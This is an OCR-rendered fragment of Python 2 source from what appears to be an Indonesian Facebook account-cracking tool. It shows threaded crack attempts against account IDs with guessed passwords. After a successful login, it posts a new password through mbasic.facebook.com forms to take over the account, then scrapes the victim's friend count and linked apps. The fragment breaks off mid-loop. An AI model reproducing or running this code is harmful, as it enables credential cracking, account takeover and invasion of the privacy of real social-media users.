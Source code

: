 					elif "IqbalDev" in mobile_crack:
						if ">>>" in data_:
							id_dev_gans = _id_dev_.split(">>>")
							c_dev.submit(crack_mobile, id_dev_gans, pas)
						else:
							c_dev.submit(crack_mobile, _id_dev_, pas)
					else:
						print " Gak Ada Pilihan...."
						pass
				except:
					pass
tampil_ttl = []
ganti_pw = []
batas = a+""
def _iqbal_dev_pw_new_(pw_new_, data, eml_dev, ses_dev, respon_2, san_dev):
	try:
		apk_dev = []
		global tampil_ttl, tap_yes
		sop_dev_2 = BeautifulSoup(respon_2.content, "html.parser")
		form = sop_dev_2.find("form")
		url_post_2 = form["action"]
		submit_2 = sop_dev_2.find("input", attrs={"name": "submit[Next]"})["value"]
		nh_2 = sop_dev_2.find("input", attrs={"name": "nh"})["value"]
		payload = {}
		for dev in form:
			input = dev
			payload[input.get("name")] = input.get("value")
								
		payload.update({"nh": nh_2, "submit[Next]": submit_2, "password_new": pw_new_})
		respon_3 = ses_dev.post("https://mbasic.facebook.com"+url_post_2, data=payload)
		try:
			respon_4 = ses_dev.get("https://mbasic.facebook.com/me/friends?")
			if "zero/optin/legal/" in respon_4.text:
				try:
					sop_gr = BeautifulSoup(respon_4.content, "html.parser").find("form")
					url_post = sop_gr["action"]
					payload = {}
					for dev in sop_gr:
						input = dev
						payload[input.get("name")] = input.get("value")
					ses_dev.post("https://mbasic.facebook.com"+url_post, data=payload)
					respon_4 = ses_dev.get("https://mbasic.facebook.com/me/friends?")
				except:
					pass
			sop_dev = BeautifulSoup(respon_4.content, "html.parser")
			jm_teman = sop_dev.find("h3").text
			jm_teman_ = jm_teman.replace("(", "\033[92;1m(\033[97;1m").replace(")", "\033[92;1m)")
			jumlah_teman = h+"{"+a+"Tem"+h+"} "+p+jm_teman_+"\n"
			if "(" not in str(jm_teman):
				jumlah_teman = h+"{"+k+"Nul"+h+"}"+p+" Tidak Bisa Menampilkan Jmlah Teman\n"
	###################################################
			try:
				c = 1
				url_ = ["https://mbasic.facebook.com/settings/apps/tabbed/?tab=active", 
						"https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive"]
				apk_dev.append(h+"{"+k+"Apk"+h+"}"+p+" Aplikasi yang terkait")
				for url in url_:
					iqbal_data = ses_dev.get(url)
					sop_dev = BeautifulSoup(iqbal_data.content, "html.parser")
					form_ = sop_dev.find("form", method="post")
					for dev in form_.find_all("h3"):
						try:
							apk = dev.find("span").text
							if c >= 2: